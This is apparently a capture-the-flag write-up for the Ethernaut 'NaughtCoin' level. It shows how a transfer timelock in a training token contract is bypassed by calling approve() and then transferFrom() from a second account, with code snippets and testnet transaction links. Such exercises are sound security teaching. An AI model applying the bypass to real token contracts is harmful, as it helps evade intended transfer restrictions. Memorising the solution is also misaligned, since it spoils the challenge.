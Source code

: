 # NaughtCoin

## Objectives

Complete this level by getting your token balance to 0.

## Solution

The ERC20 implementation, which the NaughtCoin contract inherits from, includes functionality for externally owned accounts or contracts to transfer funds out of a specific address given that that address has approved the externally owned account or contract to transfer funds out of it.

This can be done by first calling the function `approve()` from the account holding the NaughtCoins and then `transferFrom()` to transfer the tokens out of the account from the EOA or contract that was approved initially.

In two steps:

1. Call `approve()` as follows:

```js
approve(Account2Address, Account1Balance)
```

2. Call `transferFrom()` as follows:

```js
transferFrom(Account1Address, Account2Address, Account1Balance)
```

Where:

* `Account1Address`: Address of account holding the NaughtCoins
  
* `Account1Balance`: Amount of NaughtCoins in `Account1Address`, can be obtained by calling `balanceOf(Account1Address)`
  
* `Account2Address`: Address of account which will be allowed to move the tokens out of `Account1Address`. 

In this case it's also possible to send the tokens to the burn address `0x0000000000000000000000000000000000000000`.

## How I did it

1. Call `approve()` to allow a second account to move the tokens out of the account holding them. Make sure to approve *at least* the entire balance of tokens in the wallet in order to drain it.

```python
balance_in_wallet = naughtcoin.balanceOf(acc.address)
naughtcoin.approve(acc2.address, balance_in_wallet, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xdd23e9d864d89405610ec5211eca4a6ebc0a9962a7f6a837163f658b53ec97bc

2. Call `transferFrom()` to move the full token balance out of account 1 (`acc`) and into account 2 (`acc2`).

```python
naughtcoin.transferFrom(acc.address, acc2.address, balance_in_wallet, _from2)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xc906a92a4e70cd69b24d33d6b4af67ae061ed86d40f7d26f3fd36bb174bcbbd2

3. Check that the balance is indeed zero

```python
balance_assertion = naughtcoin.balanceOf(acc.address) == 0
print(f"The account balance has been drained: {balance_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xee3cf83fb11b43d97f5667e8c4bb3a242821d527284a15ff4265d565ddee3eab

